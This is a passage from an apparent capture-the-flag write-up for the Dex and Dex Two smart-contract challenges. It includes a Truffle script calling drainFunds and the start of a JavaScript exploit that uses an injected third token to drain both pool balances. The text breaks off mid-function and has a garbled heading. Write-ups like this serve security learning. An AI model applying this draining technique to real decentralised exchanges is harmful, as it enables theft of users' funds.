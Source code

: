 ```js
    
    console.log("Hacked !")
}


module.exports = async  function(deployer) {
  
  contract = await contractABI.at("0xBa71E2eEF0D68C5aBCDe6dF3EEf9377b9eD9E78C"); 
  await drainFunds();
};
```

![Dex console](https://res.cloudinary.com/dsdvvwb8v/image/upload/v1659138023/852281f645c829a2d76b966618bbb6c25f1c4721506ecca9de0e7e6ef4fab42f_dw1jen.png)  

## Dex 2

## Challenge Description

Same as Dex v1 but now we need to drain both tokens.

--------
**Analysis**

Same here but we got one less check that makes it possible to inject a third token and thus draining both contract's main tokens' balance.

![Dex 2 Function](https://res.cloudinary.com/dsdvvwb8v/image/upload/v1659138024/aeb9bb0ecc92f4b707acbc9170c3bd3355c4361d3523704a799bc8717093366d_ogt3sr.png)  

-----
**-----
**Exploitation**ation**

```js
const contractABI = artifacts.require("Dex");

let contract ;
let TOKEN1_ADDRESS = "0x954aB18d300D8FFE76a2eFE7B36fcD6EF36825c7";
let TOKEN2_ADDRESS = "0xE651aD37ac31B03F7B49036248A29DC75D0093E6";

const TOKEN3_ADDRESS= "0xfe5A0de02e7c76f2A51e3d297e65ccE784787538"

let PLAYER='0x84e7a3679A82C2766Ff8382862ab883FF9460307'

async function getBalances(){
    const token1Balance = (await contract.balanceOf(TOKEN1_ADDRESS,contract.address)).toNumber();
    const token2Balance = (await contract.balanceOf(TOKEN2_ADDRESS,contract.address)).toNumber();
    console.log(`Current Balances for contract : A : ${token1Balance} \t B : ${token2Balance}`);
    return {token1Balance,token2Balance}
}

async function knowTokenValues({token1Balance,token2Balance}){
    return {mostExpensiveToken: token1Balance >= token2Balance ? TOKEN2_ADDRESS : TOKEN1_ADDRESS,cheapestToken:token1Balance < token2Balance ? TOKEN2_ADDRESS : TOKEN1_ADDRESS };
}

async function getSwapValues(tokensWithValues){
    let toSwap  = (await contract.balanceOf(tokensWithValues.mostExpensiveToken,PLAYER)).toNumber();
    let available = (await contract.balanceOf(tokensWithValues.mostExpensiveToken,contract.address)).toNumber();

    // making sure at the end when we get most of balance in one token type we can still get the rest of the tokens.
```